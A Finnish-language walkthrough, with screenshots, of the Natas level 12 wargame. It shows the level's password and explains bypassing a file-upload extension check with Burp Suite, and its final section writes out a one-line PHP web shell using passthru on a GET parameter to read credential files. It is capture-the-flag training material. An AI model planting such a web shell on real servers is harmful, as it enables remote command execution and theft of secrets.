# LEVEL 12 - START HERE

natas12 is yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB

Perus ekana tarkistellaan, mitä tässä on koodattukaan 



Jotenkin tässä harjoituksessa huomataan PHP-koodikielestä että **JPEG** - kuva tiedosto maksimi on 1KB (MAX_FILE_SIZE).



Periaatteessa upotin jonkun satunnaisen kuvatiedoston ja testiä ainakin toimii siis et tuli _"There was an error uploading the file, please try again!"_  - mut tämä tapahtuu toisessa uudessa sivuston alla kun jos tulee _error_ ja polku */index.php*. 





## Level 12 - 2 - some testing 
**Virallinen testi ja selvitettään level 12 salasansa** <br>
Perus selvittämistä ja etsitään netistä lisää ohjeita ja lisätietoa, mutta siellä on jotakin testejä että upottaa PHP-koodikielisen scriptin. Rakensin simppelin PHP koodikielen pikaisesti joku **Hello world** Kali Linux:seen , `testi1.php`. Huomioina ennen kuin upottaa ton PHP-scriptin testin sinne Natas12 harjoitukseen, niin avaa ohjelmisto työkalu kuin **Burp Suite**. Tämän ohjelma tarjoaa Kali Linux ohjelman alustalla, ja sen versio on suht kattava ettei tarvitse olla mitään _pro / subscribe_ versiot

**Burp Suite**:ssa riittää avaa _History_ välilehden ja seuraa sieltä tarkasti sivussa, kun on upottanut PHP-koodi scriptin Natas 12 levelin alle. Ei ole pakko olla PHP-koodia , että uskon varmasti perus "Hi" tai jotakin tekstiä/sanaa voi syöttää ja ideana se liitteen tiedoston perässä on nimetty **.php**.

```
<?php

echo "Hello World!";

?>

```



(kuvasta jouduin ottaa uuden screenshotin) siksi verrattuna proxy seurannasta näyttää eri numerolta/tiedoston nimeämiseltä)


Tässä se historiasta näkeekin, mitä aikaisemmassa (ylempi kuvassa), kun upotin ton **testi.php** koodi pätkän ja meni varmasti sinne palvelimen polkuun ja vähä kuin lukaisee sitä scipritä/koodin sisältöä (Burp suitessa). Upotetun jälkeen *testi.php* tiedosto piti tulla, mutta miksi yhtäkkiä antoi jotakin satunnaista nimeämistä */upload/t29....jpg* kuva tiedostoa? 

**Proxy** seurannasta näkee mitä upotin ja tässä alettaan suorittaa seuraavaa pientä operaatio.


Eli seuraavaksi muutettaan tuosta **Proxy** --> *Intercept* - välilehden alta, että muutettaan toi kuvatiedosto (alhaalla oleva nuolenpäästä) muutettuna *jpg* --> *php* tiedostoksi ja sitten vaan **Forward**. Tämä (Forward) tarkoittaa silloin sitä, että kun pyyntö on siepattu, hakkeri/testaaja voi päättää lähetetäänkö se eteenpäin palvelimelle — eli antaa HTTP pyynnön jatkaa eteenpäin.



HTTP pyynnöstä lähetettyn jälkeen kannattaa päivittää tämä sivusto normi päivitä sivusto niin huomattua se on muuttunut.



Tämän jälkeen kaksois klikkaa sitä tiedostoa (ylemmän kuvan) mukaista liitettä niin avattuna niin se kertoo tämän **testi.php** skripti/koodi sisällön ja se on _Hello World!_ .




## Level 12 - 3 - find the password

Nyt tässä kappaleessa alettaan selvittää sitä seuraavan level 13 salasansa ja tässä harjoituksessa tapahtui/tapahtui kaltainen tyyppinen kuin etsitään sitä hakemiston polkua eli **/etc/natas_webpass/natasX** . 


Seuraavaksi loin tällaiset HTTP GET skriptin PHP-koodikielellä ja riittää tekstiin sisälle voi olla jotakin, mutta parhaimmillaan että itse tietää ja mahdollisimman lyhyeksi.
 <br>
`<?php passthru($_GET['Vastaus']); ?>` <br> - Sitten upotetun jälkeen normi "Upload file" ja sen jälkeen huomaa tiedosto on upotettu palvelimeen ja muutettu kuvaksi. 






Samanaikaisesti kun tarkistaa **Burp Suite** ohjelman HTTP historiasta että näkee sen saman upotettun tiedoston nimensä (**testi2.php**) ja kuvan tiedoston nimi.






